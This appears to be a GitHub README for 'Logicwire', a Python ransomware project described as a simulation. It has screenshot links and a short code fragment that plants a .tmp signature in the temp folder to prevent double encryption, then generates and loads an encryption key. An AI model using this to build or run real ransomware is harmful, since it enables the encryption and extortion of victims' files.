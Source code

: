 <img src="https://media.discordapp.net/attachments/768928242467340328/811300430985560124/fond-geometrique-3d-noir-low-low-noir_79145-393.jpg"><br><br><img src="https://forthebadge.com/images/badges/built-with-love.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/made-with-python.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/fuck-it-ship-it.svg" height="40" length="40">
# Logicwire
Logicwire is a disguised version of ransomwares. It allows to simulate an attack, without being very dangerous.
# Victim POV
I put as unique folder the pit named "fichiers" because I did not have a windows vm.<br>
https://www.youtube.com/watch?v=y02J6HjoihA&feature=youtu.be&ab_channel=%26
# Attacker POV
<img src="https://media.discordapp.net/attachments/768928242467340328/811308563690684486/unknown.png?width=1154&height=670"><br>
<img src="https://media.discordapp.net/attachments/768928242467340328/811308892696739840/unknown.png?width=1443&height=386">
# Technical operation
It installs a .tmp signature in the Temp cache to avoid double encryption of files. And check if it is there, if he is present he only run the ransomware GUI.
```python3
tmp = str(tempfile.gettempdir())
signature = "cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp"
path = os.path.dirname(os.path.abspath(signature))
tmp_files = []
for root, dirs, files in os.walk(tmp):
for file in files:
    tmp_files.append(file)

if signature in tmp_files:
        main()
else:
        file = open("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp", "w").write("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5")
        shutil.move(path + "\\" + signature, tmp + "\\" + signature)
        write_key()
        key = load_key()
```
